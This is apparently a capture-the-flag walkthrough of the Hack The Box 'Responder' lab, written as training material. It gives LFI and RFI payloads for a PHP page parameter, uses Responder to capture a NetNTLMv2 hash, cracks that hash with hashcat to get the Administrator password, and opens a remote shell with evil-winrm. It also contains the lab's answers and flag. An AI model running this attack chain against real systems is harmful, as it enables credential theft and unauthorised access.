




# Responder

## Scan

```bash
┌──(realkali㉿SeaDragnoL)-[/usr/share/wordlists]
└─$ nmap -sC -p- 10.129.194.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 20:35 +07
Nmap scan report for unika.htb (10.129.194.146)
Host is up (0.31s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Unika
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 594.64 seconds
```

## Task 1: When visiting the web service using the IP address, what is the domain that we are being redirected to?

answer: unika.htb

using burpsuite to intercept http:


dns problem: add the following line to `/etc/hosts` in case of linux or `C:\Windows\system32\drivers\etc\hosts` in case of windows

```text
10.129.99.74 unika.htb
```

## Task 2: Which scripting language is being used on the server to generate webpages?

php

use wappalyzer:


## Task 3: What is the name of the URL parameter which is used to load different language versions of the webpage?

page

```url
http://unika.htb/index.php?page=french.html
```

## Task 4: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

answer: `../../../../../../../../windows/system32/drivers/etc/hosts`



## Task 5: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

answer: `//10.10.14.6/somefile`

## Task 6: What does NTLM stand for?

New Technology Lan Manager

Windows New Technology LAN Manager (NTLM) is a suite of security protocols offered by Microsoft to authenticate users’ identity and protect the integrity and confidentiality of their activity. At its core, NTLM is a single sign on (SSO) tool that relies on a challenge-response protocol to confirm the user without requiring them to submit a password.

## Task 7: Which flag do we use in the Responder utility to specify the network interface?

-I

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ responder -h
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
```

## Task 8: There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?

`john the ripper`

John the Ripper is an Open Source password security auditing and password recovery tool available for many operating systems.

## Task 9: What is the password for the administrator user?

step 1: check network interface:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ ip a
...
9: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.133/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1083/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::82a:1e7b:d6ca:2777/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```

step 2: run responder with `tun0` htb vpn interface:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ sudo responder -I tun0
[sudo] password for realkali:
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]
...
```

step 3: exploit the RFI vulnerability above


step 4: receive server ntlm encrypted nonce, which is encrypted with password or hashed password:

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.194.146
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:b851c1b9cc587715:5C5061797AB00B1D40680C08AF5ACBFC:0101000000000000007287C01E29D9018084693000E98D4800000000020008003600420035004C0001001E00570049004E002D003900360058004C00330044004600340053003300550004003400570049004E002D003900360058004C0033004400460034005300330055002E003600420035004C002E004C004F00430041004C00030014003600420035004C002E004C004F00430041004C00050014003600420035004C002E004C004F00430041004C0007000800007287C01E29D90106000400020000000800300030000000000000000100000000200000647F715BD7B04CDF3DA02783119DC644288ED60AFE5EB7DC7CB333B25084B09C0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100330033000000000000000000
```

step 5: bruteforce to get the password:

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ echo 'Administrator::RESPONDER:b851c1b9cc587715:5C5061797AB00B1D40680C08AF5ACBFC:0101000000000000007287C01E29D9018084693000E98D4800000000020008003600420035004C0001001E00570049004E002D003900360058004C00330044004600340053003300550004003400570049004E002D003900360058004C0033004400460034005300330055002E003600420035004C002E004C004F00430041004C00030014003600420035004C002E004C004F00430041004C00050014003600420035004C002E004C004F00430041004C0007000800007287C01E29D90106000400020000000800300030000000000000000100000000200000647F715BD7B04CDF3DA02783119DC644288ED60AFE5EB7DC7CB333B25084B09C0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100330033000000000000000000' >
 ntlm.txt

┌──(realkali㉿SeaDragnoL)-[~]
└─$ wordlists

> wordlists ~ Contains the rockyou wordlist

/usr/share/wordlists
├── amass -> /usr/share/amass/wordlists
├── dirb -> /usr/share/dirb/wordlists
├── dirbuster -> /usr/share/dirbuster/wordlists
├── fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
├── fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
├── john.lst -> /usr/share/john/password.lst
├── legion -> /usr/share/legion/wordlists
├── metasploit -> /usr/share/metasploit-framework/data/wordlists
├── nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
├── rockyou.txt
├── rockyou.txt.gz
├── sqlmap.txt -> /usr/share/sqlmap/data/txt/wordlist.txt
├── wfuzz -> /usr/share/wfuzz/wordlist
└── wifite.txt -> /usr/share/dict/wordlist-probable.txt
┌──(realkali㉿SeaDragnoL)-[/usr/share/wordlists]
└─$ hashcat -m 5600 ~/ntlm.txt rockyou.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-12th Gen Intel(R) Core(TM) i5-12400F, 6900/13865 MB (2048 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 3 MB

Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

ADMINISTRATOR::RESPONDER:b851c1b9cc587715:5c5061797ab00b1d40680c08af5acbfc:0101000000000000007287c01e29d9018084693000e98d4800000000020008003600420035004c0001001e00570049004e002d003900360058004c00330044004600340053003300550004003400570049004e002d003900360058004c0033004400460034005300330055002e003600420035004c002e004c004f00430041004c00030014003600420035004c002e004c004f00430041004c00050014003600420035004c002e004c004f00430041004c0007000800007287c01e29d90106000400020000000800300030000000000000000100000000200000647f715bd7b04cdf3da02783119dc644288ed60afe5eb7dc7cb333b25084b09c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100330033000000000000000000:badminton

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ADMINISTRATOR::RESPONDER:b851c1b9cc587715:5c5061797...000000
Time.Started.....: Sun Jan 15 20:28:44 2023, (0 secs)
Time.Estimated...: Sun Jan 15 20:28:44 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   115.9 kH/s (3.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> hawkeye

Started: Sun Jan 15 20:28:26 2023
Stopped: Sun Jan 15 20:28:45 2023

┌──(realkali㉿SeaDragnoL)-[/usr/share/wordlists]
└─$
```

answer: badminton

## Task 10: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

answer: `5985 - winrm`

based on the nmap scan result:

```bash
┌──(realkali㉿SeaDragnoL)-[/usr/share/wordlists]
└─$ nmap -sC -p- 10.129.194.146
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-15 20:35 +07
Stats: 0:03:04 elapsed; 0 hosts completed (1 up), 1 undergoing 
Nmap scan report for unika.htb (10.129.194.146)
Host is up (0.31s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Unika
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 594.64 seconds
```

Windows Remote Management (WinRM) is the Microsoft implementation of WS-Management Protocol, a standard Simple Object Access Protocol (SOAP)-based, firewall-friendly protocol that allows hardware and operating systems, from different vendors, to interoperate.

The WS-Management protocol specification provides a common way for systems to access and exchange management information across an IT infrastructure. WinRM and Intelligent Platform Management Interface (IPMI), along with the Event Collector are components of the Windows Hardware Management features.

## Task 11: Submit root flag

flag: `ea81b7afddd03efaa0945333ed147fac`

```bash
┌──(realkali㉿SeaDragnoL)-[/usr/share/wordlists]
└─$ evil-winrm -i 10.129.194.146 -u Administrator -p badminton

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---        10/11/2020   7:19 AM                3D Objects
d-r---        10/11/2020   7:19 AM                Contacts
d-r---          3/9/2022   5:34 PM                Desktop
d-r---         3/10/2022   4:51 AM                Documents
d-r---        10/11/2020   7:19 AM                Downloads
d-r---        10/11/2020   7:19 AM                Favorites
d-r---        10/11/2020   7:19 AM                Links
d-r---        10/11/2020   7:19 AM                Music
d-r---         4/27/2020   6:01 AM                OneDrive
d-r---        10/11/2020   7:19 AM                Pictures
d-r---        10/11/2020   7:19 AM                Saved Games
d-r---        10/11/2020   7:19 AM                Searches
d-r---        10/11/2020   7:19 AM                Videos

*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public


*Evil-WinRM* PS C:\Users> cd mike
*Evil-WinRM* PS C:\Users\mike> dir


    Directory: C:\Users\mike


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/10/2022   4:51 AM                Desktop


cd *Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


c*Evil-WinRM* PS C:\Users\mike\Desktop>cat flag.txt
ea81b7afddd03efaa0945333ed147fac
```

## References

<https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html>

[Perfect writeup](https://shafiqaiman.com/hackthebox-responder-writeup/)

[winrm](https://learn.microsoft.com/en-us/windows/win32/winrm/portal)

[evil-winrm repo](https://github.com/Hackplayers/evil-winrm)
